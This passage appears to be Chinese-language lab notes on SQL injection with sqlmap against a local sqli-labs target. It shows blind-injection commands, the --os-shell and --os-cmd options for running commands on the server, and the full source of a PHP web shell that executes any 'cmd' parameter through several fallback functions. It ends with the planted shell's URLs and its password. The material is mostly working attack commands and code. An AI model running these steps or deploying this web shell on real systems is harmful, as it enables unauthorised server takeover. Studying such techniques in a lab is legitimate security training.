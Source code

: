 > --technique T 	#时间盲注
>
> --technique B        #布尔盲注

```bash
sqlmap -u "http://192.168.70.14:8088/Less-1/?id=1" --batch --technique T --dbs 
sqlmap -u "http://192.168.70.14:8088/Less-1/?id=1" --batch --technique B --dbs 
```



### 交互式shell

> --os-shell
>
> --os-cmd=whoami

```bash
sqlmap -u "http://192.168.70.14:8088/Less-1/?id=1" --batch --os-shell 
sqlmap -u "http://192.168.70.14:8088/Less-1/?id=1" --batch --os-cmd=whaomi

4
2
/var/www/html
```

![image-20240803094110561](../../../../repo/assets/19.SQL注入/image-20240803094110561.png)

![image-20240803094300485](../../../../repo/assets/19.SQL注入/image-20240803094300485.png)

![image-20240803094517464](../../../../repo/assets/19.SQL注入/image-20240803094517464.png)

```php
<?php $c=$_REQUEST["cmd"];@set_time_limit(0);@ignore_user_abort(1);@ini_set("max_execution_time",0);$z=@ini_get("disable_functions");if(!empty($z)){$z=preg_replace("/[, ]+/",',',$z);$z=explode(',',$z);$z=array_map("trim",$z);}else{$z=array();}$c=$c." 2>&1\n";function f($n){global $z;return is_callable($n)and!in_array($n,$z);}if(f("system")){ob_start();system($c);$w=ob_get_clean();}elseif(f("proc_open")){$y=proc_open($c,array(array(pipe,r),array(pipe,w),array(pipe,w)),$t);$w=NULL;while(!feof($t[1])){$w.=fread($t[1],512);}@proc_close($y);}elseif(f("shell_exec")){$w=shell_exec($c);}elseif(f("passthru")){ob_start();passthru($c);$w=ob_get_clean();}elseif(f("popen")){$x=popen($c,r);$w=NULL;if(is_resource($x)){while(!feof($x)){$w.=fread($x,512);}}@pclose($x);}elseif(f("exec")){$w=array();exec($c,$w);$w=join(chr(10),$w).chr(10);}else{$w=0;}echo"<pre>$w</pre>";?>
```



> 上传码：http://192.168.70.14:8088/tmpukkuq.php
>
> webshell：http://192.168.70.14:8088/tmpbhkcj.php
>
> 连接密码：cmd

![image-20240803094323468](../../../../repo/assets/19.SQL注入/image-20240803094323468.png)

![image-20240803094340477](../../../../repo/assets/19.SQL注入/image-20240803094340477.png)
